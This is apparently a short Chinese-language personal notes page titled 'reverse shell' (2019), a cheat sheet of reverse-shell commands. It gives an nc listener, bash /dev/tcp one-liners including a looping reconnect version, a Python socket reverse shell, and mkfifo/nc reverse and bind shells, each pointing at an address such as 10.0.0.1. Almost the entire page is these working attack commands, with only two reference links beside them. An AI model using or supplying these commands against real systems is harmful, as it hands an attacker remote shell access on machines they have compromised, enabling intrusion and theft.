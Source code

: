 title: 反弹shell
date: 2019-09-06
categories:
- 计算机
- 信息安全




---



nc做反弹shell
https://xz.aliyun.com/t/2549
https://www.freebuf.com/articles/system/10632.html

用这个接住：

```
$ nc -l -p 2333 -vvv
```

## Bash



```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

反复连接：

```
$ while true; do bash -i >& /dev/tcp/127.0.0.1/2333 0>&1; sleep 10; done
```

## Python

```
$ python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## NC

```
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f |/bin/sh -i 2>&1 |nc 10.0.0.1 2333 >/tmp/f

# 正向
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f |/bin/sh -i 2>&1 |nc -l -p 2333 >/tmp/f
```
